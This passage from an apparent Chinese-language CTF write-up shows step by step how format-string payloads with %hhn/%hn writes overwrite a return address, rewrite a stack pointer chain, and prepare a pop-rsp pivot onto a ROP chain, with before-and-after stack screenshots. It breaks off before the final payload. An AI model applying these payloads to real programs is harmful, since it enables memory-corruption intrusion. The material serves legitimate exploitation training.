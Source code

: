 ```
payload = '%' + str(0xA3) + 'c%23$hhn'#修改返回地址为0x4007a3
payload += '%' + str((stack-0xa3)&amp;0xff) + 'c%18$hhn'#修改0068得栈链指向0008处，这里减a3得原因是因为前面已经输出了0xa3个字节了，如果不减的话%18处得栈的后四位就会被修改为stack&amp;0xffff+0xa3
```

修改之前如下

[![](https://p0.ssl.qhimg.com/t018b9707a3bb60bb15.png)](https://p0.ssl.qhimg.com/t018b9707a3bb60bb15.png)

修改之后如下

[![](https://p1.ssl.qhimg.com/t01f1cea96eecbc0252.png)](https://p1.ssl.qhimg.com/t01f1cea96eecbc0252.png)

可以看到返回地址已经被修改为了0x4007a3，栈链也修改成功

下一步继续修改0008处的值，payload如下

```
stack = stack+2 
payload = '%' + str(0xA3) + 'c%23$hhn'#修改返回地址
tmp1 = (stack-0xa3)&amp;0xff
payload += '%' + str(tmp1) + 'c%18$hhn'#修改0068处的栈链
tmp2 = tmp1+0xa3
payload += '%' + str((addr1-tmp2)&amp;0xffff) + 'c%13$hn'#修改0008处栈的值
```

修改前

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01ca7006e182f8d92d.png)

修改后

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010d636ae91f603e56.png)

可以看到0008处栈的值的后四位被修改为了rop链存放地址的后四位

接下来继续修改，payload如下

```
stack = stack+2
payload = '%' + str(0x60) + 'c%13$hn'
payload += '%' + str(0xA3-0x60) + 'c%23$hhn'
tmp1 = (stack-0xa3)&amp;0xff
payload += '%' + str(tmp1) + 'c%18$hhn'
```

修改后如下

[![](https://p5.ssl.qhimg.com/t01e98b75d407fba1b5.png)](https://p5.ssl.qhimg.com/t01e98b75d407fba1b5.png)

接下来是最后一次payload，要将0008处前面的0x7fec清零，修改返回地址为pop rsp的地址，还要将rop链写入
